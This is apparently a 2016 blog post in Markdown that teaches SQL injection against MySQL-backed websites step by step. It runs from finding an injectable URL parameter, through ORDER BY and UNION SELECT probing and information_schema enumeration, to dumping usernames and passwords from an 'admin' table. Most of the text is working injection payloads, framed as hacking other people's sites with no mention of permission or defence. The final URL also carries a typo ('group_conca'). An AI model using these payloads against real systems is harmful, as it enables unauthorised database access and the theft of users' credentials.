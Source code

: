 <!--
author: zhuoliang
head: http://pingodata.qiniudn.com/jockchou-avatar.jpg
date: 2016-07-26
title: Learn How To Hack Websites With Different Techniques
tags: SQL Injection, Hack
category: Hack
status: publish
-->

## SQL Injection in MySQL Databases ##

SQL Injection attacks are code injections that exploit the database layer of the application. This is most commonly the MySQL database, but there are techniques to carry out this attack in other databases such as Oracle. In this tutorial, i will be showing you the steps to carry out the attack on a MySQL Database.

![SQL Injection](http://i.imgur.com/C8DaFIj.gif)


### 1. Find A Page Vulnerable###

When testing a website for SQL Injection vulnerabilities, you need to find a page that looks like this:

	www.site.com/page=1
	www.site.com/id=5

Basically, the site needs to have an = then a number or a string, but most commonly a number. Once you have found a page like this, we test for vulnerability by simply entering an ' after the number in the URL. For example:

	www.site.com/page=1'

If the database is vulnerable, the page will spit out a MySQL error such as:

	Warning: mysql_num_rows(): supplied argument is not a valid MySQL result 
			 resource in /home/wwwprof/public_html/readnews.php on line 29

If the page loads as normal then the database is not vulnerable, and the website is not vulnerable to SQL Injection.


### 2. Find The Number of Columns  ###

Now we need to find the number of union columns in the database. We do this using the `order by` command. We do this by entering `order by 1--`, `order by 2--` and so on until we receive a page error. For example:

    www.site.com/page=1 order by 1--
	http://www.site.com/page=1 order by 2--
	http://www.site.com/page=1 order by 3--
	http://www.site.com/page=1 order by 4--
	http://www.site.com/page=1 order by 5--

If we receive another MySQL error here, then that means we have 4 columns. If the site errored on `order by 9` then we would have 8 columns. If this does not work, instead of `--` after the number, change it with `/*`, as they are two difference prefixes and if one works the other tends not too. It just depends on the way the database is configured as to which prefix is used.

### 3. Find The Vulnerable Columns ###

We now are going to use the `union` command to find the vulnerable columns. So we enter after the URL, union all select (number of columns)--, for example:

	www.site.com/page=1 union all select 1,2,3,4--

This is what we would enter if we have 4 columns. If you have 7 columns you would put, `union all select 1,2,3,4,5,6,7--`. If this is done successfully the page should show a couple of numbers somewhere on the page. For example, 2 and 3. This means columns 2 and 3 are vulnerable.

### 4. Find The Database Version, Name and User ###

We now need to find the database version, name, and user. We do this by replacing the vulnerable column numbers with the following commands:

	user()
	database()
	version()

Or if these don't work try...

	@@user
	@@version
	@@database

For example the url would look like:

	www.site.com/page=1 union all select 1,user(),version(),4--

The resulting page would then show the database user and then the MySQL version. For example `admin@localhost and MySQL 5.0.83`.

**IMPORTANT:** If the version is 5 and above read on to carry out the attack, if it is 4 and below, you have to brute force or guess the table and column names, programs can be used to do this.

### 5. List All The Table Names ###

In this step, our aim is to list all the table names in the database. To do this we enter the following command after the URL.

	UNION SELECT 1,table_name,3,4 FROM information_schema.tables--

So the url would look like:
	
	www.site.com/page=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables--

Remember the `table_name` goes in the vulnerable column number you found earlier. If this command is entered correctly, the page should show all the tables in the database, so look for tables that may contain useful information such as passwords, so look for admin tables or member or user tables.


### 6. List All The Column Names ###

In this Step we want to list all the column names in the database, to do this we use the following command:

	union all select 1,2,group_concat(column_name),4 from information_schema.columns where table_schema=database()--

So the URL would look like this:

	www.site.com/page=1 union all select 1,2,group_concat(column_name),4 from information_schema.columns where table_schema=database()--

This command makes the page spit out ALL the column names in the database. So again, look for interesting names such as user, email, and password.

### 7. Dump The Data ###

Finally, we need to dump the data, so say we want to get the `username` and `password` fields, from table "admin" we would use the following command:

	union all select 1,2,group_concat(username,0x3a,password),4 from admin--

So the URL would look like this:

	www.site.com/page=1 union all select 1,2,group_conca(username,0x3a,password),4 from admin--

Here the `concat` command matches up the username with the password so you don't have to guess, if this command is successful then you should be presented with a page full of usernames and passwords from the website
